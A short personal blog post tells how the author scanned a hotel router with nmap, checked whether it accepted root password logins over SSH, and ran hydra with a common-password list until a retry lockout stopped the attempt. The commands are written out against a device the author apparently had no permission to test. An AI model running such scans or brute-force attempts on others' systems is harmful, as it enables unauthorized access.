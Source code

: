 ```yaml
---
title: Scan An Open ssh Port
lang: en-US
date: 2020-06-01
tags: [ network ]
---
```


I was living in a hotel in the quarantine time, which has a very bad network.
While I was doing some network configuration checking, I accidentally found the ssh port of the router is open.

<!-- more -->

## Scan open ports

I was scanning the router for an open HTTP port where I found its ssh port opening.
``` bash
    nmap $TARGET_IP
```

## Check ssh authentication

Further check if it accepts `root` remote connect and password authentications.
``` bash
ssh -v -n\
    -o Batchmode=yes\
    -o StrictHostKeyChecking=no\
    -o UserKnownHostsFile=/dev/null\
    root@$TARGET_IP 2>&1 | grep password
```

Turns out it does!
``` bash
debug1: Authentications that can continue: password
Permission denied (password).
```

## Try brute force the password
Use a [dictionary](https://github.com/danielmiessler/SecLists)
``` bash
    hydra -l root -P top-20-common-SSH-passwords.txt $TARGET_IP -t 4 ssh
```

## User locked
After 10 tries, the `root` was locked.
Looks like it is a Cisco router with [Login Password Retry Lockout](https://www.cisco.com/en/US/docs/ios-xml/ios/sec_usr_aaa/configuration/15-2mt/sec-login-pw-retry.html#GUID-CA5A3F7D-E324-490E-B551-802924411091).
Had to admit it is secure to me :relieved:.

## Reference
- [https://serverfault.com/questions/938149/how-to-test-if-ssh-server-allows-passwords](https://serverfault.com/questions/938149/how-to-test-if-ssh-server-allows-passwords)
